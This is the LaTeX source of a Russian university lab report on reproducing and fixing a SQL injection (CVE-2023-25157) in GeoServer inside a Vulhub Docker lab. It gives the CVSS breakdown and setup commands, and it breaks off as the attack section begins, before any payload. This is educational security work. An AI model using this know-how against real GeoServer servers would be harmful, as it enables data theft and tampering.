\documentclass{article}
\usepackage[utf8]{inputenc}
\usepackage[T2A]{fontenc}
\usepackage[english,russian]{babel}
\usepackage[left=1.5cm,right=1.5cm,top=2cm,bottom=2cm]{geometry}
\usepackage{hyperref}
\usepackage{enumitem}
\usepackage{graphicx} %библиотека для графики и картинок
\DeclareGraphicsExtensions{.pdf,.png,.jpg}
\usepackage{listings}


\begin{document}
% НАЧАЛО ТИТУЛЬНОГО ЛИСТА
\begin{center}
    \Large
    Федеральное государственное автономное \\
    образовательное учреждение высшего образования \\ 
    «Национальный исследовательский университет ИТМО»\\
    \vspace{0.5cm}
    \large
    
    \vspace{1cm}
    \Large
    \textbf{По дисциплине «Информационная безопасность»} \\
        Лабораторная работа №2\\
        Анализ и устранение уязвимости на примере
реального CVE с использованием Vulhub
    \large
    \vspace{8cm}

    \begin{minipage}{.33\textwidth}
    \end{minipage}
    \hfill
    \begin{minipage}{.4\textwidth}
    
        \textbf{Студент}: \vspace{.1cm} \\
        \ Дениченко Александр Олегович P3412\\
        \textbf{Практик}:  \\
        \ Маркина Татьяна Анатольевна
    \end{minipage}
    \vfill
Санкт-Петербург\\ 2025 г.
\end{center}
\pagestyle{empty}
% КОНЕЦ ТИТУЛЬНОГО ЛИСТА 
\newpage
\pagestyle{plain}

\section*{Цель}

Приобрести практический опыт работы с уязвимым программным обеспечением в
контролируемой среде. Научиться воспроизводить эксплуатацию известной уязвимости (CVE),
анализировать ее причины и реализовывать меры по ее устранению.

\section{Вводная часть}

Название выбранной уязвимости (CVE ID): \href{https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157}{CVE-2023-25157 (geoserver)}
\\ \\
\textbf{Описание продукта:}

GeoServer - это сервер программного обеспечения с открытым исходным кодом, написанный на Java, который обеспечивает возможность просмотра, редактирования и обмена геопространственными данными. Он предназначен для гибкого, эффективного решения для распространения геопространственных данных из различных источников, таких как базы данных географической информационной системы (ГИС), веб-данные и наборы персональных данных.
\\ \\ 
\textbf{Описание уязвимости:}

В версиях до 2.22.1 и 2.21.4 существует проблема с SQL-инъекцией, которая была обнаружена в фильтрах и функциях, определенных стандартами Open Geospatial Consortium (OGC).

\begin{center}
  
\includegraphics[width=.4\textwidth]{desc.png}
\end{center}

\begin{itemize}
  \item AV:N — Attack Vector: Network. Эксплуатация возможна удалённо по сети.
  \item AC:L — Attack Complexity: Low. Не требует редких условий; атака проста.
  \item PR:N — Privileges Required: None. Не нужны права/аккаунт на цели.
  \item UI:N — User Interaction: None. Не нужно участие пользователя.
  \item S:U — Scope: Unchanged. Влияние в пределах той же системы/контекста.
  \item C:H — Confidentiality impact: High. Сильная потеря конфиденциальности (утечка данных).
  \item I:H — Integrity impact: High. Сильное нарушение целостности (изменение/подмена данных).
  \item A:H — Availability impact: High. Сильное влияние на доступность (отказ в обслуживании).
\end{itemize}

\section{Запуск уязвимого окружения}

Скачал репозиторий vulhub с уязвимостью.
\begin{lstlisting}
    git clone https://github.com/vulhub/vulhub.git
\end{lstlisting}
Запускаем контейнер.
\begin{lstlisting}
    docker compose up -d
\end{lstlisting}
\begin{center}
  
\includegraphics[width=.9\textwidth]{docker.png}
\end{center}
Отображение в докере контейнеров.
\begin{center}
  
\includegraphics[width=.9\textwidth]{up.png}
\end{center}
Приложение запустилось.
\begin{center}
  
\includegraphics[width=.9\textwidth]{geos.png}
\end{center}

\section{Воспроизведение атаки}

Проверка на корректность работы приложения.
\\ \\
Геоданные приложения.
\begin{center}
  
\includegraphics[width=.9\textwidth]{correct.png}
\end{center}
Информация о приложении.
\begin{center}
